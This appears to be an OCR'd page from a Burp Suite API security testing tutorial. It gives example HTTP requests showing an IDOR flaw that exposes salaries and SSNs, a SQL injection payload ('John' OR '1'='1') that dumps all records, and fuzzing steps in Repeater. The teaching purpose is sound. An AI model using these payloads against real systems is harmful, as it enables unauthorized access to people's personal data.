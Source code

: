 **Example 2: Insufficient Authorization**

```http
GET /api/v1/users/456/salary HTTP/1.1
Host: api.company.com
Authorization: Bearer user123_token

# Modify user_id parameter to access other users' data
GET /api/v1/users/789/salary HTTP/1.1

Response:
{
  "employee_id": "789",
  "salary": "120000",
  "ssn": "987-65-4321"
}

Vulnerability:
✗ Insecure Direct Object Reference (IDOR)
✗ Can access any user's salary by changing ID
✗ No authorization check on server side
```

**Example 3: SQL Injection**

```http
POST /api/v1/search HTTP/1.1
Host: api.company.com
Content-Type: application/json

{
  "query": "John' OR '1'='1"
}

Response:
{
  "results": [
    {"id": 1, "name": "John Doe", "ssn": "123-45-6789"},
    {"id": 2, "name": "Jane Smith", "ssn": "234-56-7890"},
    ...all records returned...
  ]
}

Vulnerability:
✗ SQL Injection - application vulnerable to database attacks
✗ All records exposed due to improper input validation
```

### Advanced Burp Suite Techniques

#### Using Burp Repeater for Fuzzing

```
1. Send interesting request to Repeater (Ctrl+R)
2. Modify parameters systematically:
   - Change user IDs
   - Inject special characters
   - Modify token values
   - Change HTTP methods (POST to GET, etc.)
3. Observe responses for errors or unexpected behavior
```
